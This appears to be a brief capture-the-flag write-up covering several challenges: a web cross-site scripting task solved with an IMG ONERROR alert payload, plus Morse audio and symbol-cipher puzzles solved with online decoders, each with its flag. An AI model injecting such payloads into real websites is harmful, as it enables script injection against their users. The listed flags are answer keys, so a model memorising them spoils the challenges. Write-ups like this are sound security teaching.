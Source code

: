 # Choosy - web
![](https://i.imgur.com/gY9eLMn.png)

by using the following payload in the input parameter:
```
<IMG SRC='' ONERROR='ALERT(0)'>
```
we got XSS!

![](https://i.imgur.com/3gEesnC.png)

>shellctf{50oom3_P4yL0aDS_aM0ng_Maaa4nnY}

---

# Alien Communication

![](https://i.imgur.com/80axRsi.png)

using https://morsecode.world/international/decoder/audio-decoder-adaptive.html we upload the given file

![](https://i.imgur.com/9V1arsl.png)

>shell{y0u_g07_7h3_f1ag}

---

# Tweeeet

![](https://i.imgur.com/yweRULh.png)

![](https://i.imgur.com/U30hywp.png)

given the above image we can use https://www.dcode.fr/birds-on-a-wire-cipher

![](https://i.imgur.com/jIzn9Y1.png)

>SHELL{WELOVESINGING}

---

# World's Greatest Detective

![](https://i.imgur.com/0LkMhIS.png)

https://www.dcode.fr/wakanda-alphabet

![](https://i.imgur.com/MTODIJD.png)

>SHELLCTF{W4kandA_F0rev3r} 









